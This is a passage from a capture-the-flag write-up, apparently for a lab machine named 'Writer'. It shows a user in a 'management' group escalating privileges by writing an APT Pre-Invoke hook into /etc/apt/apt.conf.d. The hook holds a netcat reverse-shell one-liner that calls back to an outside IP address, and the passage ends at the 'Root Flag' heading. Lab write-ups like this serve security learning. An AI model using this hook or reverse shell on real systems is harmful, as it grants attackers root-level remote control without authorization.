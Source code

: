 
Now we are in via SSH we can have another look:

```text
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
```

## Exploiting apt.conf.d

We can see John is in a group called management, like we did for Kyle let's see what this group gives access to:

```text
john@writer:~$ find / -group management 2>/dev/null
/etc/apt/apt.conf.d

john@writer:~$ ls -lsa /etc/apt
total 36
4 drwxr-xr-x   7 root root       4096 Jul  9 10:59 .
4 drwxr-xr-x 102 root root       4096 Jul 28 06:32 ..
4 drwxrwxr-x   2 root management 4096 Jul 28 09:24 apt.conf.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 auth.conf.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 preferences.d
4 -rw-r--r--   1 root root       2777 May 13 21:57 sources.list
4 -rw-r--r--   1 root root       2743 Feb  1  2021 sources.list.curtin.old
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 sources.list.d
4 drwxr-xr-x   2 root root       4096 Jul  9 10:59 trusted.gpg.d
```

We see John has write permissions to the folder. Information on the apt.conf.d folder from [here](https://debian-handbook.info/browse/wheezy/sect.apt-get.html):

```text
Each directory represents a configuration file which is split over multiple files. 
In this sense, all of the files in /etc/apt/apt.conf.d/ are instructions for the 
configuration of APT. APT includes them in alphabetical order, so that the last
ones can modify a configuration element defined in one of the first ones.
```

There's a good article [here](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation) about how we can use our rights on that folder to get code execution.

Let's create our own configuration file in there:

```sh
john@writer:~$ echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f"};' > /etc/apt/apt.conf.d/rev_shell

john@writer:~$ ls -lsa /etc/apt/apt.conf.d/
4 -rw-r--r-- 1 root root        630 Apr  9  2020 01autoremove
<SNIP>
4 -rw-r--r-- 1 root root        305 Dec  4  2020 99update-notifier
4 -rw-rw-r-- 1 john john        108 Oct 15 15:06 rev_shell
```

## Root Flag
